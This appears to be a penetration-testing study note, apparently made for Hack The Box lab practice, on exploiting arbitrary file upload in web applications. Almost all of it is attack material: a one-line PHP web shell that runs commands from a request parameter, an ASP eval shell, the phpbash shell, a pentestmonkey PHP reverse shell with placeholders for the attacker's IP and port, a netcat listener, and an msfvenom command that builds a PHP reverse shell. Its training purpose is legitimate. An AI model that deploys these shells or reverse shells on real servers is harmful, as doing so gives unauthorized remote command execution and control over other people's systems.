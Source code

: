 https://book.hacktricks.xyz/pentesting-web/file-upload
https://thecyberjedi.com/php-shell-in-a-jpeg-aka-froghopper/
# Arbitrary File Upload
Identify Web Application
![[wappalyzer-fileupload.png]]
## Vulnerability Identification
###### test.php
```php
<?php echo "Hello HTB";?>
```

```url
http://SERVER_IP:PORT/uploads/test.php
```
![[hellohtb-fileupload.png]]
# Upload Exploitation
## Web Shells
### PHPBASH
```git
git clone https://github.com/Arrexel/phpbash
```

```url
http://SERVER_IP:PORT/uploads/phpbash.php
```
![[phpbash.png]]
## Writing Custom Web Shell
```php
<?php system($_REQUEST['cmd']); ?>
```

```url
http://SERVER_IP:PORT/uploads/shell.php?cmd=id
```
![[shell-fileupload.png]]
### .NET Web Application
```asp
<% eval request('cmd') %>
```
## Reverse Shell
```git
git clone https://github.com/pentestmonkey/php-reverse-shell
```
###### Modify Reverse Shell
```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```
###### Netcat Listener
```netcat
nc -lvnp OUR_PORT
```
## Generating Custom Reverse Shell Scripts
###### Msfvenom
```msfvenom
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```